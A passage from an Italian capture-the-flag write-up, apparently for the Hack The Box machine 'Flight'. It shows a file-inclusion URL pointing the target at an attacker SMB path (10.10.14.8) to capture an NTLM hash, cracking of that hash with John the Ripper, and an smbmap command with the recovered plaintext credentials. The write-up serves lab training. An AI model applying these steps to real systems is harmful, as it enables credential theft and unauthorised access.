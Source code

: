 E visito il seguente indirizzo:

```text
http://school.flight.htb/index.php?view=//10.10.14.8/prova
```

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-7.png"/>
</p>

**Funziona!**

Salvo l'hash nel file _hash..txt_ e uso _jhontheripper_ per ricavare la password:

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-8.png"/>
</p>

## Foothold
Utilizzo _smbmap_ per capire a quali share ha accesso l'utente _svc_apache_:

```bash
smbmap -H flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13'
```

<p align="center">